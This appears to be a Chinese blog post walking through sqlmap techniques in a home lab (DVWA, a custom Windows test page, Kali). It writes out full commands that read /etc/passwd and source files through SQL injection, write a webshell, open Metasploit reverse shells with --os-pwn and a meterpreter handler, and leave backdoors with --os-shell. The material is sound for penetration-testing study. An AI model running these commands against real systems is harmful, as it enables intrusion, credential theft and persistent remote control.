```yaml
---
layout:     post
title:      SQLMAP不为我所知的技巧
subtitle:   SQLMAP高级技巧
date:       2019-07-25
author:     看不尽的尘埃
header-img: img/post-bg-ios9-web.jpg
catalog: 	 true
tags:
    - SQLMAP
---
```

# 前言
在以前很长的一段时间，我都仅仅使用了SQLMAP验证SQL注入、脱库的功能，最近看到国外的几篇将SQLMAP的文章，才发现SQLMAP可以做更加深入的事情...不愧是SQL注入神器，把SQL注入利用到了极致！本文主要讲解SQLMAP 读写文件、SQLMAP 与MSF 反弹shell。

# 环境的准备
在以下的过程中，我总共搭建了2个靶机，1台攻击机，为什么准备两个靶机是有原因的，由于Metasploitable2权限问题，导致有一些写入操作无法实现。
靶机：
* Windows 10 自己写的SQL注入页面
* Metasploitable2 靶机中的DVWA

攻击机：
* Kali Linux
# 找SQL注入点
现在假设我们从真实的网站中找到了SQL注入漏洞，我们可以这样做，使用sqlmap -u 参数或者直接保存数据包使用sqlmap -r 参数，如下图所示：

保存HTTP数据包并且命名为DVWA.txt文件，并复制到Kali Linux中：
![图片](../../../../img/sqlmap_unknown1.png)
在Kali Linux攻击机上输入以下命令：
```
sqlmap -r DVWA.txt
```
从下图我们可以判断出，该网站存在SQL注入漏洞：
![图片](../../../../img/sqlmap_unknown2.png)

# 读写文件
常规的脱库，这里就不说了，相信大家都会~，下面讲解一下，通过SQL注入读取php文件源码与系统文件和写入webshell的操作。
## 前提
在开始下面的步骤前，我们需要先对注入点进行"信息搜集"，搜集当前数据库的用户名、当前数据库用户的权限、网站的绝对路径这些信息。
sqlmap查看当前数据库用户的命令如下：
```
sqlmap -r DVWA.txt --current-user
```
从图中我们可以知道当前数据库的用户为root：
![图片](../../../../img/sqlmap_unknown3.png)

sqlmap查看数据库用户权限的命令如下：
```
sqlmap -r DVWA.txt --privileges
```
从sqlmap回显回来的内容中搜索，root用户对应的权限，从下图中我们可以看到root用户有file权限：
![图片](../../../../img/sqlmap_unknown4.png)

对于网站绝对路径的获取，网上的方法有很多，这里就不介绍了，主要还是靠人品。假设存在注入点的网站根目录下存在phpinfo.php，从而让我们获取到了网站的绝对路径，如下图所示，玩这个的绝对路径为/var/www。
![图片](../../../../img/sqlmap_unknown5.png)

## 读文件
当你具备了以上三个条件，就可以尝试读取php源码和系统文件了。
在Kali Linux中输入以下命令，我发现sqlmap提示下载成功，但是打开下载成功的文件，发现是空的或者是一个问好，可能是权限问题吧
```
sqlmap -r DVWA.txt --file-read="/var/www/dvwa/phpinfo.php"
```
但是通过以下命令，读取系统文件却是可以的
```
sqlmap -r DVWA.txt --file-read="/etc/passwd"
```
![图片](../../../../img/sqlmap_unknown6.png)

后来我在Windows上的SQL注入靶场中尝试了，成功下载了php源码：
```
sqlmap -u "http://10.20.40.95/sql/sql/get.php?news_id=1" --file-read="E://php//WWW//sql//sql/get.php"

```

![图片](../../../../img/sqlmap_unknown7.png)

## 写文件
既然可以读取文件，那么肯定会想到写入文件，那么我们下面就来试一试。
通过输入如下的命令，我们可以写入文件：
注意
--file-write是写入到靶机的绝对路径;
--file-dest是物理机webshell存放的绝对路径;
```
python sqlmap.py -u "http://10.20.40.95/sql/sql/get.php?news_id=1" --file-dest="E://php//WWW//sql//sql/phpinfo.php" --file-write="E://php//WWW//phpinfo.php"
```
从下图sqlmap的提示信息中，我们可以看到我们成功的写入了webshell，这里以phpinfo.php为例。
![图片](../../../../img/sqlmap_unknown8.png)
打开网站目录确认该文件也确实写入成功！
![图片](../../../../img/sqlmap_unknown9.png)
# 获取meterpreter shell
难道仅仅只能读写文件嘛？No，下面来通过靶场来演示通过SQL注入获取meterpreter shell；
## --os-pwn
当SQL注入点权限高且知道网站绝对路径的情况下，使用sqlmap --os-pwn 选项。
在Kali Linux攻击机中输入以下命令，sqlmap会让我们进行选择设置：
```
sqlmap -u "http://10.20.40.95/sql/sql/get.php?news_id=1" --os-pwn
```
如下图所示，这里我们要选择【1】TCP：Metasploit Framework，脚本语言选择【4】PHP
![图片](../../../../img/sqlmap_unknown10.png)
接下来选择【2】custom location输入网站绝对路径，连接的类型选择【1】Reverse TCP:Connect back from the database host to this machine ，再填入攻击机的IP地址和端口，最后选择【2】Shell：
![图片](../../../../img/sqlmap_unknown11.png)
配置完成后，sqlmap会自动运行MSF，等待一分钟左右成功反弹回了Windows 靶机的shell，如下图所示：
![图片](../../../../img/sqlmap_unknown12.png)
## --os-shell
sqlmap 还有自动留webshell的操作，我以前都没看提示信息...
### sqlmap自动留后门
当SQL注入点权限高且知道网站绝对路径的情况下，使用sqlmap --os-shell 选项。
在Kali Linux攻击机中输入以下命令，sqlmap会让我们进行选择设置：
```
sqlmap -u "http://10.20.40.95/sql/sql/get.php?news_id=1" --os-shell
```
--os-shell 在成功获取到交互shell后，会在网站目录下生成2个后门文件，如下图所示：
![图片](../../../../img/sqlmap_unknown13.png)
一个是用来执行系统命令的后门文件：
![图片](../../../../img/sqlmap_unknown14.png)
一个是用来上传文件的后门文件：
![图片](../../../../img/sqlmap_unknown15.png)

使用msfvenom生成一个php木马，复制代码并且保存为shell.php，通过上传接口上传：
![图片](../../../../img/sqlmap_unknown16.png)

在Kali Linux上打开msfconsole并输入以下命令：
```
use exploit/multi/handler
set payload php/meterpreter/reverse_tcp
set lhost 10.20.30.137
set lport 4444
run
```
![图片](../../../../img/sqlmap_unknown17.png)

访问shell.php，Kali Linux中成功收到反弹回来的shell，如下图所示：
![图片](../../../../img/sqlmap_unknown18.png)

![图片](../../../../img/sqlmap_unknown19.png)
